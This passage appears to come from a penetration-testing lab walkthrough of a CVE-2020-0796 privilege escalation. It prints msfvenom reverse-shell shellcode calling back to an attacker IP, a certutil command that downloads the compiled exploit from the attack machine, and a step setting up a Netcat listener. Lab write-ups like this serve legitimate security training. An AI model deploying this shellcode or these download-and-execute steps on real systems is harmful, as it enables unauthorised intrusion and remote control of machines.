 ```
// Generated with msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.118.3 LPORT=8081 -f dll -f csharp
uint8_t shellcode[] = {
    0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,
    0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,
    0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,
    0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,
    0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,
    0x01,0xd0,0x8b,0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,
    0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x56,0x48,
    0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,
    0xac,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,
    0x24,0x08,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,
    0x66,0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,0x8b,0x04,
    0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,
    0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,
    0x8b,0x12,0xe9,0x57,0xff,0xff,0xff,0x5d,0x49,0xbe,0x77,0x73,0x32,0x5f,0x33,
    0x32,0x00,0x00,0x41,0x56,0x49,0x89,0xe6,0x48,0x81,0xec,0xa0,0x01,0x00,0x00,
    0x49,0x89,0xe5,0x49,0xbc,0x02,0x00,0x1f,0x91,0xc0,0xa8,0x31,0xb1,0x41,0x54,
    0x49,0x89,0xe4,0x4c,0x89,0xf1,0x41,0xba,0x4c,0x77,0x26,0x07,0xff,0xd5,0x4c,
    0x89,0xea,0x68,0x01,0x01,0x00,0x00,0x59,0x41,0xba,0x29,0x80,0x6b,0x00,0xff,
    0xd5,0x50,0x50,0x4d,0x31,0xc9,0x4d,0x31,0xc0,0x48,0xff,0xc0,0x48,0x89,0xc2,
    0x48,0xff,0xc0,0x48,0x89,0xc1,0x41,0xba,0xea,0x0f,0xdf,0xe0,0xff,0xd5,0x48,
    0x89,0xc7,0x6a,0x10,0x41,0x58,0x4c,0x89,0xe2,0x48,0x89,0xf9,0x41,0xba,0x99,
    0xa5,0x74,0x61,0xff,0xd5,0x48,0x81,0xc4,0x40,0x02,0x00,0x00,0x49,0xb8,0x63,
    0x6d,0x64,0x00,0x00,0x00,0x00,0x00,0x41,0x50,0x41,0x50,0x48,0x89,0xe2,0x57,
    0x57,0x57,0x4d,0x31,0xc0,0x6a,0x0d,0x59,0x41,0x50,0xe2,0xfc,0x66,0xc7,0x44,
    0x24,0x54,0x01,0x01,0x48,0x8d,0x44,0x24,0x18,0xc6,0x00,0x68,0x48,0x89,0xe6,
    0x56,0x50,0x41,0x50,0x41,0x50,0x41,0x50,0x49,0xff,0xc0,0x41,0x50,0x49,0xff,
    0xc8,0x4d,0x89,0xc1,0x4c,0x89,0xc1,0x41,0xba,0x79,0xcc,0x3f,0x86,0xff,0xd5,
    0x48,0x31,0xd2,0x48,0xff,0xca,0x8b,0x0e,0x41,0xba,0x08,0x87,0x1d,0x60,0xff,
    0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,
    0x83,0xc4,0x28,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,
    0x72,0x6f,0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5
};
```

Using Visual Studio (in our case Community 2019 with C++ Desktop Development installed), we'll set the target to `x64` and `Release` and compile the exploit. We can host the compiled exploit on our attack machine over HTTP and then download it to the target using the low-privileged shell.

```
C:\Users\nathan\Nexus\nexus-3.21.0-05>certutil -urlcache -split -f http://192.168.118.3/cve-2020-0796-local.exe cve-2020-0796-local.exe
certutil -urlcache -split -f http://KALI/cve-2020-0796-local.exe cve-2020-0796-local.exe
****  Online  ****
  000000  ...
  01e600
CertUtil: -URLCache command completed successfully.
```

Let's start a Netcat handler to catch our reverse shell.
